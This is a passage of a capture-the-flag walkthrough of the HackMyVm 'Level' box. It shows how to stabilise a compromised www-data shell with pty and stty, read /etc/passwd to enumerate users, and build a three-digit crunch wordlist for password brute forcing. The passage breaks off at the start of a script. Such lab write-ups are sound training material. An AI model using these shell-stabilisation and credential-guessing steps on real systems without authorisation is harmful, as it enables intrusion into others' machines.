 www-data@Level:/var/www/html/Level2021$ stty rows 17 cols 190
www-data@Level:/var/www/html/Level2021$ export TERM=xterm
www-data@Level:/var/www/html/Level2021$ 
```

```
python -c 'import pty; pty.spawn ("/bin/bash")'
Ctrl Z
stty raw -echo; fg 
enter
enter
stty rows 17 cols 190
export TERM=xterm
```

Now we have a stable shell let gather more information checking the passwd file to confirm how many users we have on the target.

![image](https://user-images.githubusercontent.com/69868171/140071946-1075aaac-83af-4f95-a653-61cfc3be3419.png)

We have only one user which we found when enumerating SMB if we can recall now let dig more.

![image](https://user-images.githubusercontent.com/69868171/140072413-e2bc0e73-13eb-4e3f-a170-b27687a88a9f.png)

Ahhh yes we have no access to the home directory of the user `one` and seems we have a secret file left for us let cat it.

![image](https://user-images.githubusercontent.com/69868171/140072681-fb2136c5-7f8e-4797-a57c-8dd9e5f7ea69.png)

Smooth great time to create a custom wordlist with the help of crunch tools.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/level]
└─$ crunch 3 3 0123456789 > level.txt
Crunch will now generate the following amount of data: 4000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 1000
```
So with the help of `crunch` i was able to generate the following number of lines: 1000 with random combination with minimum 3 and maximum 3 .

![image](https://user-images.githubusercontent.com/69868171/140075252-4e86ee93-c8a2-4ee6-8b30-537e8d59207a.png)

Now let use a simple bash script to generate our wordlists.

```
#!/bin/bash
#author:- Muzec
